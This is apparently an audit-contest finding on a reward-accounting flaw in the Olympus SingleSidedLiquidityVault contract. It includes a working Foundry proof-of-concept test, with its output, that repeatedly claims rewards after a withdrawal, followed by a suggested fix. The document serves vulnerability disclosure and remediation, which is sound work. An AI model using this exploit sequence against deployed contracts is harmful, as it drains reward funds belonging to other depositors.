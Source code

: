 nobody2018

high

# Issue: user can still get same rewards after withdraw

## Summary

If **cachedUserRewardscachedUserRewards[user_] [rewardToken]** is greater than 0, this value will be added to the reward while **claimRewards** is called. This allows user to still get a lot of rewards after withdrawal. **The reason** for this problem is that **cachedUserRewardscachedUserRewards** is not **reset** after claimRewards.

## Vulnerability Detail

How to make **cachedUserRewardscachedUserRewards[user_] [rewardToken]** greater than 0? 

Let's assume that attacker  has deposited some pairToken. After a period of time, attacker calls SingleSidedLiquidityVault.withdraw  function and sets the claim_ parameter to false. The issue is in the _withdrawUpdateRewardState function. Let's look at its [code snippet](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L580-L590):

```solidity
//580-590 in SingleSidedLiquidityVault.sol

            InternalRewardToken memory rewardToken = internalRewardTokens[i];
            uint256 rewardDebtDiff = lpAmount_ * rewardToken.accumulatedRewardsPerShare;

            if (rewardDebtDiff > userRewardDebts[msg.sender][rewardToken.token]) {
                userRewardDebts[msg.sender][rewardToken.token] = 0;
                cachedUserRewards[msg.sender][rewardToken.token] +=	//here cachedUserRewards > 0
                    rewardDebtDiff -
                    userRewardDebts[msg.sender][rewardToken.token];
            } else {
                userRewardDebts[msg.sender][rewardToken.token] -= rewardDebtDiff;
            }
```

while **rewardDebtDiff** is bigger than **userRewardDebts[msg.sender][rewardToken.token],** **cachedUserRewards[msg.sender][rewardToken.token]** is assigned to rewardDebtDiff, userRewardDebts[msg.sender][rewardToken.token] is assigned to 0. After withdraw returns, attacker calls **claimRewards**. **internalRewardsForToken** calculates the number of rewards inside **claimRewards**. [code snippet](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L354-L372)

```solidity
//354-372 in SingleSidedLiquidityVault.sol
    function internalRewardsForToken(uint256 id_, address user_) public view returns (uint256) {
        InternalRewardToken memory rewardToken = internalRewardTokens[id_];
        uint256 lastRewardTime = rewardToken.lastRewardTime;
        uint256 accumulatedRewardsPerShare = rewardToken.accumulatedRewardsPerShare;

        if (block.timestamp > lastRewardTime && totalLP != 0) {
            uint256 timeDiff = block.timestamp - lastRewardTime;
            uint256 totalRewards = timeDiff * rewardToken.rewardsPerSecond;

            // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
            accumulatedRewardsPerShare += (totalRewards * 1e18) / totalLP;
        }

        // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
        uint256 totalAccumulatedRewards = (lpPositions[user_] * accumulatedRewardsPerShare) -
            userRewardDebts[user_][rewardToken.token];	//never underflow, 

        return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18;
    }
```

Finally, attacker got a lot of reward tokens that include internalToken and externalToken **without staking lptoken**. *Note: UserRewardDebts [user_] [rewardToken.token] is the value divided by 1e18, so calculating totalAccumulatedRewards will not revert.*

## Impact

This exploitation does not require any skills, users can easily exploit this vulnerability. Users with a large amount of capital can basically get risk-free income, just only keeping a little lptoken in the contract.

## Code Snippet

I wrote poc in bottom of **WstethLiquidityVaultFork.t.sol** file.

```solidity
function testMultiClaimDrainRewards() public {
        // Setup
        vm.prank(alice);
        liquidityVault.deposit(WSTETH_AMOUNT, 0);
        vm.prank(bob);
        liquidityVault.deposit(WSTETH_AMOUNT, 0);

        vm.warp(block.timestamp + 10); // Increase time 10 seconds so there are rewards

        uint256 lpAmount = liquidityVault.lpPositions(alice);
        emit log_named_decimal_uint("[1]total lpAmount=", lpAmount, 18);

        // Verify initial state
        assertEq(ldo.balanceOf(alice), 0);
        assertEq(reward2.balanceOf(alice), 0);
        assertEq(externalReward.balanceOf(alice), 0);

        vm.prank(alice);
        liquidityVault.withdraw(lpAmount - 1e18, minTokenAmounts_, false);
        assertEq(liquidityVault.lpPositions(alice), 1e18);
        emit log_named_decimal_uint("[2]userRewardDebts=", liquidityVault.userRewardDebts(alice, address(ldo)), 18);
        emit log_named_decimal_uint("[2]cachedUserRewards=", liquidityVault.cachedUserRewards(alice, address(ldo)), 18);
        // Claim rewards
        vm.prank(alice);
        liquidityVault.claimRewards();
        emit log_named_decimal_uint("[3]     ldo bal=", ldo.balanceOf(alice), 18);
        emit log_named_decimal_uint("[3]external bal=", externalReward.balanceOf(alice), 18);

        vm.warp(block.timestamp + 10);

        vm.prank(alice);
        liquidityVault.claimRewards();
        emit log_named_decimal_uint("[4]     ldo bal=", ldo.balanceOf(alice), 18);
        emit log_named_decimal_uint("[4]external bal=", externalReward.balanceOf(alice), 18);

        vm.warp(block.timestamp + 10);

        vm.prank(alice);
        liquidityVault.claimRewards();
        emit log_named_decimal_uint("[5]     ldo bal=", ldo.balanceOf(alice), 18);
        emit log_named_decimal_uint("[5]external bal=", externalReward.balanceOf(alice), 18);        
    }
    /*	output
[PASS] testMultiClaimDrainRewards() (gas: 1636448)
Logs:
  [1]total lpAmount=: 26.438818012912682040
  [2]userRewardDebts=: 0.000000000000000000
  [2]cachedUserRewards=: 4810884132658447041.079224978758479200
  [3]     ldo bal=: 5.000000000000100021
  [3]external bal=: 1.536444718556379274
  [4]     ldo bal=: 10.364447185563892864
  [4]external bal=: 3.109334155669127828
  [5]     ldo bal=: 16.093341556691378529
  [5]external bal=: 4.718668311338245663
Test result: ok. 1 passed; 0 failed; finished in 32.41s
    */
```

## Tool used

Manual Review

## Recommendation

cachedUserRewardscachedUserRewards[user_] [rewardToken] should be reset inside [_claimInternalRewards](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L623-L634).

cachedUserRewardscachedUserRewards[user_] [rewardToken] should be reset inside [[_claimExternalRewards](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L636-L648)].
```solidity
//my version
    function _claimInternalRewards(uint256 id_) internal {
        address rewardToken = internalRewardTokens[id_].token;
        uint256 reward = internalRewardsForToken(id_, msg.sender);	//The result is divided by 1e18
        uint256 fee = (reward * FEE) / PRECISION;
        
        uint256 cached = cachedUserRewards[msg.sender][rewardToken];
        if (cached > 0) {
            userRewardDebts[msg.sender][rewardToken] += reward * 1e18 - cached;
            cachedUserRewards[msg.sender][rewardToken] = 0;
        } else {
            userRewardDebts[msg.sender][rewardToken] += reward * 1e18;
        }
        
        accumulatedFees[rewardToken] += fee;

        if (reward > 0) ERC20(rewardToken).safeTransfer(msg.sender, reward - fee);

        emit RewardsClaimed(msg.sender, rewardToken, reward - fee);
    }

    function _claimExternalRewards(uint256 id_) internal {
        ExternalRewardToken storage rewardToken = externalRewardTokens[id_];
        uint256 reward = externalRewardsForToken(id_, msg.sender);	//The result is divided by 1e18
        uint256 fee = (reward * FEE) / PRECISION;

        uint256 cached = cachedUserRewards[msg.sender][rewardToken];
        if (cached > 0) {
            userRewardDebts[msg.sender][rewardToken] += reward * 1e18- cached;
            cachedUserRewards[msg.sender][rewardToken] = 0;
        } else {
            userRewardDebts[msg.sender][rewardToken] += reward * 1e18;
        }
        accumulatedFees[rewardToken.token] += fee;

        if (reward > 0) ERC20(rewardToken.token).safeTransfer(msg.sender, reward - fee);
        rewardToken.lastBalance = ERC20(rewardToken.token).balanceOf(address(this));

        emit RewardsClaimed(msg.sender, rewardToken.token, reward - fee);
    }
```